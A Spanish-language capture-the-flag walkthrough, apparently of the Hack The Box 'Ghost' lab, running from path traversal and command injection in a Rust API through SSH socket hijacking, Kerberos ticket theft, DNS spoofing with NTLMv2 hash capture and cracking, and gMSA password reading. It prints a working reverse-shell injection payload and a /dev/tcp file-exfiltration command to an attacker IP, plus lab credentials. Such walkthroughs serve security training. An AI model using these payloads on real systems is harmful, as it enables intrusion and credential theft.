Si volvemos a mirar el `Gitea`, recordaremos que se mos menciona que hay una API compartida entre la Intranet y el blog, almacenada como variable de entorno con el nombre de `DEV_INTRANET_KEY`.


**`/proc/self/environ`** es un archivo especial en sistemas Linux que contiene las variables de entorno del proceso que lo lee. Detalles clave:

Se encuentra en el sistema de archivos proc (/proc/), que es una interfaz al kernel. self es un enlace simbólico al directorio del proceso que lo accede. Contiene las variables de entorno en formato KEY=VALUE, separadas por \0 (carácter nulo).

**Ejemplo de uso:**

Si ejecutamos:

`cat /proc/self/environ`

Veremos algo como:

`PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\0HOME=/root\0USER=root\0...`

(Algunos valores pueden no verse bien porque están separados por \0).

**Posibles riesgos**

Si un proceso con permisos elevados expone su /proc/self/environ, un atacante podría leer variables sensibles como AWS\_SECRET\_KEY, DATABASE\_PASSWORD, etc.


A través del `Path Traversal` revisaremos las variables de entorno al directorio del proceso que lo accede. Verificamos que nos muestra el contenido en la respuesta por parte del servidor.

<figure><figcaption></figcaption></figure>

Desde `Cyberchef` descodificaremos el contenido recibido y verificamos que logramos obtener la variable de entorno `DEV_INTRANET_KEY` que mencionaban en `Gitea`.

<figure><figcaption></figcaption></figure>

### Using the Ghost API to perform command injection and gain access to the Docker machine

Revisaremos el repositorio de `ghost-dev/intranet` el cual contiene la siguiente información en el `README.md`.


Hemos encontrado información en el archivo **README.md** que indica que la intranet y el blog están en proceso de integración. Mientras el desarrollo continúa, han expuesto una **API de desarrollo** en `http://intranet.ghost.htb/api-dev`, lo que podría ser un punto de interés para futuras pruebas.


<figure><figcaption></figcaption></figure>

Nos descargaremos el repositorio de `Intranet` para revisar el contenido del repositorio de `Intranet`.

<figure><figcaption></figcaption></figure>

Del archivo comprimido `.zip` que nos hemos descargado, lo descomprimiremos y accederemos al directorio creado.

```bash
❯ unzip intranet.zip; cd intranet
```

A través del comando `tree` visualizaremos la estructura de los archivos descargados del repositorio `ghost-dev/intranet`.eeeeeeeeeeeee

```bash
❯ tree
.
├── backend
│   ├── Cargo.lock
│   ├── Cargo.toml
│   ├── diesel.toml
│   ├── Dockerfile
│   ├── migrations
│   │   ├── 2024-01-05-214725_news
│   │   │   ├── down.sql
│   │   │   └── up.sql
│   │   └── 2024-01-05-225610_forum
│   │       ├── down.sql
│   │       └── up.sql
│   └── src
│       ├── api
│       │   ├── dev
│       │   │   └── scan.rs
│       │   ├── dev.rs
│       │   ├── forum.rs
│       │   ├── ldap.rs
│       │   ├── login.rs
│       │   ├── me.rs
│       │   ├── news.rs
│       │   └── users.rs
│       ├── api.rs
│       ├── database
│       │   ├── models.rs
│       │   └── schema.rs
│       ├── database.rs
│       └── main.rs
├── docker-compose.yml
├── frontend
│   ├── Dockerfile
│   ├── next.config.js
│   ├── package.json
│   ├── postcss.config.js
│   ├── public
│   │   ├── next.svg
│   │   └── vercel.svg
│   ├── README.md
│   ├── src
│   │   ├── app
│   │   │   ├── (dashboard)
│   │   │   │   ├── forum
│   │   │   │   │   └── page.tsx
│   │   │   │   ├── layoutNavigation.tsx
│   │   │   │   ├── layout.tsx
│   │   │   │   ├── news
│   │   │   │   │   └── page.tsx
│   │   │   │   ├── profile
│   │   │   │   │   └── page.tsx
│   │   │   │   └── users
│   │   │   │       └── page.tsx
│   │   │   ├── globals.css
│   │   │   ├── layout.tsx
│   │   │   ├── login
│   │   │   │   ├── action.tsx
│   │   │   │   ├── form.tsx
│   │   │   │   └── page.tsx
│   │   │   ├── logout
│   │   │   │   └── route.tsx
│   │   │   └── page.tsx
│   │   ├── components
│   │   │   ├── drawer.tsx
│   │   │   └── navbar.tsx
│   │   ├── helpers
│   │   │   └── fetch.ts
│   │   └── hooks
│   │       └── useUser.tsx
│   ├── tailwind.config.js
│   ├── tsconfig.json
│   └── yarn.lock
└── README.md

23 directories, 50 files
```

Realizaremos una búsqueda recursiva en todos los archivos para buscar en dónde hacen uso de la `DEV_INTRANET_KEY`. Verificamos que se hace uso de esta clave en el archivo `dev.rs`.

```bash
❯ grep 'DEV_INTRANET_KEY' -r *
backend/src/api/dev.rs:                if key == std::env::var("DEV_INTRANET_KEY").unwrap() {
backend/.env.example:DEV_INTRANET_KEY=
```

Este código implementa un **guardia de acceso** en Rocket, un framework web de Rust. La estructura `DevGuard` se utiliza para verificar si una solicitud tiene un encabezado específico, `X-DEV-INTRANET-KEY`, y si el valor de este encabezado coincide con la variable de entorno `DEV_INTRANET_KEY`.

Si la clave es correcta, se permite el acceso, y el guardia devuelve un **Outcome::Success**. Si la clave es incorrecta o no se proporciona, se devuelve un **Outcome::Error** con un estado de **Unauthorized** (401).

Este guardia protege las rutas que requieren una clave de autenticación para acceder.


```rust
use rocket::http::Status;
use rocket::Request;
use rocket::request::{FromRequest, Outcome};

pub(crate) mod scan;

pub struct DevGuard;

#[rocket::async_trait]
impl<'r> FromRequest<'r> for DevGuard {
    type Error = ();

    async fn from_request(request: &'r Request<'_>) -> Outcome<Self, Self::Error> {
        let key = request.headers().get_one("X-DEV-INTRANET-KEY");
        match key {
            Some(key) => {
                if key == std::env::var("DEV_INTRANET_KEY").unwrap() {
                    Outcome::Success(DevGuard {})
                } else {
                    Outcome::Error((Status::Unauthorized, ()))
                }
            },
            None => Outcome::Error((Status::Unauthorized, ()))
        }
    }
}
```


Por otro lado, nos encontramos con el siguiente archivo `scan.rs` que se utiliza para lo siguiente.

Este código implementa una ruta en Rocket que permite **escanear URLs** en publicaciones de un blog. La ruta `scan` recibe una solicitud `POST` con una URL en formato JSON, utilizando la estructura `ScanRequest`.

El flujo de funcionamiento es el siguiente:

1. **Autenticación**: Primero, se verifica que la solicitud tenga una clave válida de acceso (`DevGuard`).
2. **Comando Bash**: Luego, se ejecuta un comando en Bash con la URL proporcionada. Este comando intenta llamar a un script (`intranet_url_check`) que debería verificar si la URL es segura.
3. **Respuesta**: Dependiendo del resultado de la ejecución del comando, la función responde con un JSON que contiene:
   * **is\_safe**: Indica si la URL es segura (actualmente siempre es `true`).
   * **temp\_command\_success**: Informa si el comando se ejecutó correctamente.
   * **temp\_command\_stdout** y **temp\_command\_stderr**: Muestran las salidas estándar y de error del comando ejecutado.

Este endpoint está diseñado para ser utilizado por el blog para verificar la seguridad de las URLs de los posts.


```rust
use std::process::Command;

use rocket::serde::json::Json;
use rocket::serde::Serialize;
use serde::Deserialize;

use crate::api::dev::DevGuard;

#[derive(Deserialize)]
pub struct ScanRequest {
    url: String,
}

#[derive(Serialize)]
pub struct ScanResponse {
    is_safe: bool,
    // remove the following once the route is stable
    temp_command_success: bool,
    temp_command_stdout: String,
    temp_command_stderr: String,
}

// Scans an url inside a blog post
// This will be called by the blog to ensure all URLs in posts are safe
#[post("/scan", format = "json", data = "<data>")]
pub fn scan(_guard: DevGuard, data: Json<ScanRequest>) -> Json<ScanResponse> {
    // currently intranet_url_check is not implemented,
    // but the route exists for future compatibility with the blog
    let result = Command::new("bash")
        .arg("-c")
        .arg(format!("intranet_url_check {}", data.url))
        .output();

    match result {
        Ok(output) => {
            Json(ScanResponse {
                is_safe: true,
                temp_command_success: true,
                temp_command_stdout: String::from_utf8(output.stdout).unwrap_or("".to_string()),
                temp_command_stderr: String::from_utf8(output.stderr).unwrap_or("".to_string()),
            })
        }
        Err(_) => Json(ScanResponse {
            is_safe: true,
            temp_command_success: false,
            temp_command_stdout: "".to_string(),
            temp_command_stderr: "".to_string(),
        })
    }
}
```


Le pasaremos el archivo `scan.rs` al ChatGPT para verificar si existen algunas vulnerabilidades en el archivo. En el resultado obtenido, verificamos que podemos realizar un `Command Injection` a través de la entrada de `data.url`.

<figure><figcaption></figcaption></figure>

Por lo tanto, lo que probaremos es de acceder al sistema a través de una Reverse Shell, para ello nos ponemos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutamos el siguiente comando para aprovecharnos de la vulnerabilidad descubierta para enviarnos una Reverse Shell.

```bash
❯ curl -X POST http://intranet.ghost.htb:8008/api-dev/scan -H 'X-DEV-INTRANET-KEY: !@yqr!X2kxmQ.@Xe' -H 'Content-Type: application/json' -d '{"url":"http://gzzcoo.com;/bin/bash -i >& /dev/tcp/10.10.16.7/443 0>&1"}'
```

Verificamos que hemos ganado acceso al Docker del sistema que levanta la página de Intranet.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.24] 49786
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@36b733906694:/app# hostname -I
hostname -I
172.18.0.3 
```

## Shell as Florence.Ramirez

### Information leaked in environment variables (env)

Al acceder al equipo, verificamos que nos encontramos como usuario `root`. Verificando las variables de entorno que tenemos, nos encontrams con una variable `LDAP_BIND_PASSWORD` que parecen ser unas credenciales de LDAP.

```bash
root@36b733906694:/app# env
SHELL=bash
DATABASE_URL=./database.sqlite
HOSTNAME=36b733906694
PWD=/app
HOME=/root
CARGO_HOME=/usr/local/cargo
LDAP_BIND_DN=CN=Intranet Principal,CN=Users,DC=ghost,DC=htb
LDAP_HOST=ldap://windows-host:389
LDAP_BIND_PASSWORD=He!KA9oKVT3rL99j
TERM=xterm
DEV_INTRANET_KEY=!@yqr!X2kxmQ.@Xe
RUSTUP_HOME=/usr/local/rustup
ROCKET_ADDRESS=0.0.0.0
SHLVL=3
RUST_VERSION=1.79.0
PATH=/usr/local/cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
JWT_SECRET=*xopkAGbLyg9bK_A
_=/usr/bin/env
```

Realizaremos un `Password Spraying` para verificar si estas credenciales son válidas para algún usuario que disponemos. Verificamos que son las credenciales válidas del usuario `intranet_principal`.

```bash
❯ nxc smb 10.10.11.24 -u users.txt -p 'He!KA9oKVT3rL99j' --continue-on-success
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [-] ghost.htb\kathryn.holland:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\cassandra.shelton:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\robert.steeves:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\florence.ramirez:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\justin.bradley:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\arthur.boyd:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\beth.clark:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\charles.gray:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\jason.taylor:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
SMB         10.10.11.24     445    DC01             [+] ghost.htb\intranet_principal:He!KA9oKVT3rL99j 
SMB         10.10.11.24     445    DC01             [-] ghost.htb\gitea_temp_principal:He!KA9oKVT3rL99j STATUS_LOGON_FAILURE 
```

Realizaremos una exportación del `BloodHound` para verificar posibles vectores de ataque para elevar nuestros privilegios, de momento no logramos encontrar nada interesante.

```bash
❯ nxc ldap 10.10.11.24 -u 'intranet_principal' -p 'He!KA9oKVT3rL99j'  --bloodhound --collection All --dns-server 10.10.11.24
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.24     389    DC01             [+] ghost.htb\intranet_principal:He!KA9oKVT3rL99j 
LDAP        10.10.11.24     389    DC01             Resolved collection methods: group, dcom, trusts, localadmin, rdp, acl, session, psremote, container, objectprops
LDAP        10.10.11.24     389    DC01             Done in 00M 10S
LDAP        10.10.11.24     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.24_2025-02-07_212001_bloodhound.zip
```

### Session Hijacking via SSH Control Socket

Volviendo al equipo de Docker, analizamos los archivos y directorios de la raíz. Entre los cuales, nos encontramos con un archivo `docker-entrypoint.sh` en el cual al analizar el script, vemos que mencionan un directorio en `/root/.ssh/controlmaster`.

```bash
root@36b733906694:/# ls -l
total 76
drwxr-xr-x   1 root root 4096 Jul  5  2024 app
lrwxrwxrwx   1 root root    7 Jul  1  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Mar 29  2024 boot
drwxr-xr-x   5 root root  340 Feb  7 17:46 dev
-rwxr-xr-x   1 root root  215 Jul 22  2024 docker-entrypoint.sh
drwxr-xr-x   1 root root 4096 Jul 22  2024 etc
drwxr-xr-x   2 root root 4096 Mar 29  2024 home
lrwxrwxrwx   1 root root    7 Jul  1  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Jul  1  2024 lib64 -> usr/lib64
drwxr-xr-x   2 root root 4096 Jul  1  2024 media
drwxr-xr-x   2 root root 4096 Jul  1  2024 mnt
drwxr-xr-x   2 root root 4096 Jul  1  2024 opt
dr-xr-xr-x 196 root root    0 Feb  7 17:46 proc
drwx------   1 root root 4096 Jul  5  2024 root
drwxr-xr-x   1 root root 4096 Jul  5  2024 run
lrwxrwxrwx   1 root root    8 Jul  1  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root 4096 Jul  1  2024 srv
dr-xr-xr-x  13 root root    0 Feb  7 17:46 sys
drwxrwxrwt   1 root root 4096 Jul  5  2024 tmp
drwxr-xr-x   1 root root 4096 Jul  1  2024 usr
drwxr-xr-x   1 root root 4096 Jul  1  2024 var

root@36b733906694:/# cat docker-entrypoint.sh 
#!/bin/bash

mkdir /root/.ssh
mkdir /root/.ssh/controlmaster
printf 'Host *\n  ControlMaster auto\n  ControlPath ~/.ssh/controlmaster/%%r@%%h:%%p\n  ControlPersist yes' > /root/.ssh/config

exec /app/ghost_intranet 
```

Accederemos a `/root/.ssh/controlmaster` y verificaremos que existe de un Socket de SSH del usuario `florence.ramirez` al equipo `dev-workstation`.


Un **socket** es un punto de comunicación que permite el intercambio de datos entre dos procesos en una red o en un sistema local. Es un concepto clave en la programación de redes y permite que aplicaciones en diferentes máquinas o en la misma máquina se comuniquen entre sí.

En este caso específico, el archivo **florence.ramirez@ghost.htb@dev-workstation:22** parece ser un **socket de red**. Los sockets se utilizan para establecer conexiones entre clientes y servidores, y se manejan mediante direcciones IP y puertos. Los detalles del nombre del archivo sugieren que es un socket Unix, que generalmente se utiliza para la comunicación entre procesos dentro de la misma máquina.

#### ¿Qué hace un socket?

* **Enlace entre procesos**: Un socket permite que dos aplicaciones, ya sea en la misma máquina o en máquinas diferentes, se comuniquen a través de la red.
* **Tipos de sockets**:
  * **Sockets de flujo** (TCP): Utilizados para una conexión fiable.
  * **Sockets de datagramas** (UDP): Utilizados para comunicación sin conexión y más rápida, aunque menos fiable.

En este caso, el archivo indica que se trata de un **socket Unix** que está siendo utilizado por el servicio en el puerto 22, lo que sugiere que se está manejando alguna comunicación interna relacionada con SSH o un servicio similar entre procesos en la máquina.

Por tanto, este archivo de socket podría estar facilitando una comunicación entre aplicaciones o servicios relacionados con el sistema `florence.ramirez@ghost.htb` y `dev-workstation`.


```bash
root@36b733906694:~/.ssh/controlmaster$ ls -la
total 12
drwxr-xr-x 1 root root 4096 Feb  7 17:47 .
drwxr-xr-x 1 root root 4096 Jul  5  2024 ..
srw------- 1 root root    0 Feb  7 17:47 florence.ramirez@ghost.htb@dev-workstation:22

root@36b733906694:~/.ssh/controlmaster$ file florence.ramirez\@ghost.htb\@dev-workstation\:22 
florence.ramirez@ghost.htb@dev-workstation:22: socket
```

Al ejecutar el comando `ssh -O check`, revisamos si existe una conexión SSH multiplexada activa. La respuesta `Master running (pid=24)` confirma que la conexión principal está activa. Luego, con `hostname -I`, obtuvimos la dirección IP de la máquina remota, que es `172.18.0.2`. Finalmente, al usar `id`, vimos que el usuario conectado es `florence.ramirez` (UID 50), y pertenece a los grupos `staff` e `it`.

```bash
root@36b733906694:~/.ssh/controlmaster# ssh -O check -S ~/.ssh/controlmaster/florence.ramirez@ghost.htb@dev-workstation:22 florence.ramirez@ghost.htb
Master running (pid=24)
florence.ramirez@LINUX-DEV-WS01:~$ hostname -I
172.18.0.2 
florence.ramirez@LINUX-DEV-WS01:~$ id
uid=50(florence.ramirez) gid=50(staff) groups=50(staff),51(it)
```

### Reusing a Valid TGT for Lateral Movement

Al analizar nuevamente las variables de entorno de este nuevo usuario, verificamos que parece haber un Ticket Granting Ticket (TGT) del usuario que disponemos. Este ticket se encuentra almacenado enla variable `KRB5CCNAME` en el directorio `/tmp/krb5cc_50`.

```bash
florence.ramirez@LINUX-DEV-WS01:~$ env
SHELL=/bin/bash
PWD=/home/GHOST/florence.ramirez
KRB5CCNAME=FILE:/tmp/krb5cc_50
LOGNAME=florence.ramirez
MOTD_SHOWN=pam
HOME=/home/GHOST/florence.ramirez
SSH_CONNECTION=172.18.0.3 54228 172.18.0.2 22
TERM=xterm
USER=florence.ramirez
SHLVL=1
SSH_CLIENT=172.18.0.3 54228 22
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SSH_TTY=/dev/pts/0
_=/usr/bin/env
```

Accederemos al directorio mencionado, y comprobaremos de la existencia del TGT.

```bash
florence.ramirez@LINUX-DEV-WS01:/tmp$ ls -la krb5cc_50 
-rw------- 1 florence.ramirez staff 1650 Feb  7 19:49 krb5cc_50
```

En nuestro equipo atacante, nos pondremos en escucha para recibir el archivo mencionado.

```bash
❯ nc -nlvp 443 > krb5cc_50
listening on [any] 443 ...
```

Desde el equipo víctima, enviaremos el archivo a través del `/dev/tcp`.

```bash
florence.ramirez@LINUX-DEV-WS01:/tmp$ cat krb5cc_50 > /dev/tcp/10.10.16.7/443
```

Verificamos que disponemos de este archivo en nuestro equipo local correctamente.

```bash
❯ ls -l krb5cc_50
.rw-rw-r-- kali kali 1.6 KB Fri Feb  7 20:51:29 2025  krb5cc_50
❯ file krb5cc_50
krb5cc_50: data
```

Exportaremos el TGT en la variable `KRB5CCNAME` y verificaremos que el ticket es válido y lo podemos utilizar.

```bash
❯ export KRB5CCNAME=$(pwd)/krb5cc_50

❯ klist -i
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/AD/Ghost/content/krb5cc_50
Default principal: florence.ramirez@GHOST.HTB

Valid starting     Expires            Service principal
07/02/25 20:51:02  08/02/25 06:51:02  krbtgt/GHOST.HTB@GHOST.HTB
	renew until 08/02/25 20:51:01
```

A través de `nxc`, validaremos que el `TGT` es válido y podemos hacer uso de este para autenticarnos como el usuario `florence.ramirez` sin disponer de sus credenciales.

```bash
❯ nxc smb 10.10.11.24 -u 'florence.ramirez' -k --use-kcache
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [+] ghost.htb\florence.ramirez from ccache 
```

## Shell as justin.bradley

### DNS Spoofing to Capture NTLMv2 Hash from User Attempting to Access Bitbucket

Después de investigar en BloodHound para verificar las acciones posibles con el usuario `florence.ramirez`, no encontramos ninguna vulnerabilidad clara. Sin embargo, recordamos que en la Intranet, el usuario `justin.bradley` mencionaba que estaba teniendo problemas para acceder a `bitbucket.ghost.htb`.

Esto nos llevó a pensar que podríamos revisar si esa entrada está registrada en el servidor DNS del Domain Controller. Si no lo está, una opción sería verificar si tenemos permisos para agregar una nueva entrada y redirigir el subdominio a nuestro servidor web, lo que nos permitiría realizar un ataque de **DNS Spoofing**.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `bloodyAD` realizaremos una consulta de los registros DNS del servidor.

```bash
❯ bloodyAD --host dc01.ghost.htb -d ghost.htb -k get dnsDump

zoneName: ghost.htb

SOA.PrimaryServer: dc01.ghost.htb
SOA.zoneAdminEmail: hostmaster@ghost.htb
NS: dc01.ghost.htb
A: 10.0.0.254; 127.0.0.1; 10.10.11.24
recordName: ghost.htb

recordName: _gc._tcp.ghost.htb
SRV: primary.corp.ghost.htb:3268; dc01.ghost.htb:3268

recordName: _gc._tcp.Default-First-Site-Name._sites.ghost.htb
SRV: primary.corp.ghost.htb:3268; dc01.ghost.htb:3268

recordName: _kerberos._tcp.ghost.htb
SRV: dc01.ghost.htb:88
...[snip]...
```

Dado que el resultado era bastante extenso, lo que realizamos es reenviar la salida del comando a un archvo llamado `dnsDump.txt`, para posteriormente filtrar por `bitbucket` en el archivo para comprobar si existía esta entrada. En este caso, verificamos que no hay la existencia de este subdominio en los registros del servidor DNS del DC.

```bash
❯ bloodyAD --host dc01.ghost.htb -d ghost.htb -k get dnsDump > dnsDump.txt
❯ grep 'bitbucket' dnsDump.txt
```

Mediante la herramienta de `bloodyAD` lo que probamos es de intentar añadir un registro DNS llamado `bitbucket` para que apuntáse hacía nuestro servidor web. Comprobamos que se ha podido añadir correctamente el registro, alparecer disponíamos de los permisos necesarios con el usuario `florence.ramirez`.

```bash
❯ bloodyAD --host dc01.ghost.htb -d ghost.htb -k add dnsRecord bitbucket 10.10.16.7
[+] bitbucket has been successfully added
```

Utilizaremos el `responder` para levantar los servicios. Después de un tiempo, verificamos que nos llega el hash NTLMv2 del usuario `justin.bradley`, lo cual nos confirma del éxito del `DNS Spoofing`.

```bash
❯ sudo responder -I tun0
...[snip]...
[+] Listening for events...

[HTTP] NTLMv2 Client   : 10.10.11.24
[HTTP] NTLMv2 Username : ghost\justin.bradley
[HTTP] NTLMv2 Hash     : justin.bradley::ghost:379fd6cc8a217192:57521556E3919754EBD8F3CEF7C53692:010100000000000055A059C39A79DB0196D7986191DE13BA00000000020008005400460043004E0001001E00570049004E002D004D004D004C00550059003000520039004F004E003500040014005400460043004E002E004C004F00430041004C0003003400570049004E002D004D004D004C00550059003000520039004F004E0035002E005400460043004E002E004C004F00430041004C00050014005400460043004E002E004C004F00430041004C00080030003000000000000000000000000040000076536FB96280E0573AB44A1AC8269946A2295E50D4C33E8D9D4B3161337ACEAC0A001000000000000000000000000000000000000900300048005400540050002F006200690074006200750063006B00650074002E00670068006F00730074002E006800740062000000000000000000
```

Trataremos de crackear el hash obtenido y comprobamos que logramos crackear el hash y obtener las credenciales del usuario mencionado.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU

...[snip]...

JUSTIN.BRADLEY::ghost:379fd6cc8a217192:57521556e3919754ebd8f3cef7c53692:010100000000000055a059c39a79db0196d7986191de13ba00000000020008005400460043004e0001001e00570049004e002d004d004d004c00550059003000520039004f004e003500040014005400460043004e002e004c004f00430041004c0003003400570049004e002d004d004d004c00550059003000520039004f004e0035002e005400460043004e002e004c004f00430041004c00050014005400460043004e002e004c004f00430041004c00080030003000000000000000000000000040000076536fb96280e0573ab44a1ac8269946a2295e50d4c33e8d9d4b3161337aceac0a001000000000000000000000000000000000000900300048005400540050002f006200690074006200750063006b00650074002e00670068006f00730074002e006800740062000000000000000000:Qwertyuiop1234$$
```

Trataremos de validar a través de `nxc` de si las credenciales son válidas para el usuario, comprobamos que podemos autenticarnos con dichas credenciales y además tenemos permisos para acceder al DC mediante `WinRM` dado que tenemos de los permisos necesarios.

```bash
❯ nxc smb 10.10.11.24 -u 'justin.bradley' -p 'Qwertyuiop1234$$'
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [+] ghost.htb\justin.bradley:Qwertyuiop1234$$ 

❯ nxc winrm 10.10.11.24 -u 'justin.bradley' -p 'Qwertyuiop1234$$'
WINRM       10.10.11.24     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:ghost.htb)
WINRM       10.10.11.24     5985   DC01             [+] ghost.htb\justin.bradley:Qwertyuiop1234$$ (Pwn3d!)
```

### Abusing WinRM -EvilWinRM

Nos conectaremos al Domain Controller a través de `evil-winrm` y logramos visualizar la flag de **user.txt**.

```bash
❯ evil-winrm -i 10.10.11.24 -u 'justin.bradley' -p 'Qwertyuiop1234$$'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\justin.bradley\Documents> type ../Desktop/user.txt
56ee926c00f*********************
```

## BloodHound Enumeration

Revisaremos en `BloodHound` los Domain Admins existentes en el dominio, en este caso, solamente se muestra al usuario`Administrator`.

<figure><figcaption></figcaption></figure>

Por otro lado, verificamos que el usuario `ADFS_GMSA$` es Kerberoastable. Tratamos de crackear su hash obtenido, pero no logramos crackear el hash para obtener la contraseña del usuario.

<figure><figcaption></figcaption></figure>

## Shell as ADFS\_GMSA$

### Abusing ReadGMSAPassword (PowerView.py)

Revisando nuevamente en `BloodHound`, comprobamos que el usuario actual `justin.bradley` dispone de privilegios de `ReadGMSAPassword` sobre el objeto `ADFS_GMSA$`.&#x20;


Los privilegios de **ReadGMSAPassword** permiten a usuarios o grupos recuperar la contraseña de una **Group Managed Service Account (gMSA)** en un entorno de Active Directory. Estos privilegios se asignan para que ciertos servicios, servidores o aplicaciones puedan autenticarse automáticamente utilizando la cuenta sin necesidad de gestión manual de contraseñas. Sin embargo, si son otorgados a usuarios no autorizados, podrían permitir el acceso a servicios críticos o realizar ataques de escalación de privilegios.


<figure><figcaption></figcaption></figure>

Para recuperar la contraseña `GMSA` decidimos utillizar la herramienta de `PowerView.py`, al realizar la consulta de `Get-GMSA` logramos obtener el hash NTLM del objeto `ADFS_GMSA$`.

```bash
❯ powerview ghost.htb/'justin.bradley':'Qwertyuiop1234$$'@10.10.11.24 --dc-ip 10.10.11.24
Logging directory is set to /home/kali/.powerview/logs/ghost-justin.bradley-10.10.11.24
[2025-02-07 21:27:49] [Storage] Using cache directory: /home/kali/.powerview/storage/ldap_cache
(LDAPS)-[DC01.ghost.htb]-[GHOST\justin.bradley]
PV > Get-GMSA
ObjectDnsHostname           : federation.ghost.htb
ObjectSAN                   : adfs_gmsa$
ObjectSID                   : S-1-5-21-4084500788-938703357-3654145966-4101
PrincipallAllowedToRead     : GHOST\DC01$
                              GHOST\justin.bradley
GMSAPassword                : 0bef79ae4d25b1864570212e33922d14
```

Validaremos que el hash NTLM del usuario nos sirve para autenticarnos correctamente en el dominio.

```bash
❯ nxc smb 10.10.11.24 -u 'ADFS_GMSA$' -H '0bef79ae4d25b1864570212e33922d14'
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.24     445    DC01             [+] ghost.htb\ADFS_GMSA$:0bef79ae4d25b1864570212e33922d14
```

Verificamos que el usuario `ADFS_GMSA$` dispone del privilegio de `CanPSRemote` sobre el Domain Controller, con lo cual, podríamos conectarnos remotamente al DC.

<figure><figcaption></figcaption></figure>

Nos conectaremos al `DC` mediante `evil-winrm`, verificamos el acceso correctamente.

```bash
❯ evil-winrm -i 10.10.11.24 -u 'ADFS_GMSA$' -H '0bef79ae4d25b1864570212e33922d14'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adfs_gmsa$\Documents> 
```

## Shell as mssqlserver

### Active Directory Federation Services (ADFS) - Golden SAML  Attack

Por el nombre del equipo, pensamos que quizás esté relacionado con los `Active Directory Federation Services (ADFS)`.


Los **Active Directory Federation Services (ADFS)** son una solución de Microsoft para proporcionar acceso único (SSO) a aplicaciones que no están dentro del dominio local de Active Directory. A través de ADFS, los usuarios pueden acceder a aplicaciones externas o servicios web sin necesidad de ingresar credenciales repetidamente. ADFS funciona emitiendo **tokens SAML** (Security Assertion Markup Language) que contienen información sobre la identidad del usuario y sus permisos.


Por lo cual, se nos ocurrió en intentar realizar un `Golden SAML Attack`.


El **Golden SAML Attack** es una técnica utilizada para explotar las vulnerabilidades de autenticación en ADFS. En este ataque, el atacante roba el certificado utilizado para firmar los tokens SAML y lo usa para crear tokens de autenticación falsificados que le permiten acceder a aplicaciones federadas sin necesidad de que el usuario real esté presente. Es una forma muy efectiva de realizar escalada de privilegios o moverse lateralmente dentro de una red comprometida.


En este caso, con acceso a la cuenta **ADFS\_GMSA$**, que tiene privilegios sobre el Domain Controller (DC), un atacante puede potencialmente usar esta cuenta para generar un **Golden SAML Token**. Con dicho token, el atacante podría acceder a cualquier servicio federado que dependa de ADFS para autenticación, como si fuera un usuario legítimo.



